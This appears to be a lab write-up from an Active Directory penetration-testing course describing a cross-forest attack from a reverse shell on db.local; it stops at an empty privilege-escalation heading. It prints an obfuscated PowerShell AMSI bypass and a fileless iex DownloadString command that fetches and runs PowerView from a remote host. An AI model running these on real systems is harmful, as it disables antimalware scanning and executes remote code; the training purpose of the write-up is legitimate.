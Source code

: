 # Hands-On 27:

```
Using the reverse shell on db.local:
- Execute cross forest attack on dbvendor.local by abusing ACLs
- Enumerate FSPs for db.local and escalate privileges to DA by compromising the FSPs.
```

## Index of content
  1. [Cross forest attack](#cross-forest-attack)
  2. [Privilege escalation](#privilege-escalation)

## Cross forest attack

Bypass amsi on revere shell:
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' )-VaL)."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ))."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```
Download PowerView from target machine fileless and validate the trust fores :

```
PS C:\Windows\system32> iex (New-Object Net.Webclient).DownloadString("http://192.168.100.17/PowerView.ps1")
PS C:\Windows\system32> Get-ForestTrust


TopLevelNames            : {dbvendor.local}
ExcludedTopLevelNames    : {}
TrustedDomainInformation : {dbvendor.local}
SourceName               : db.local
TargetName               : dbvendor.local
TrustType                : Forest
TrustDirection           : Bidirectional
```


## Privilege escalation

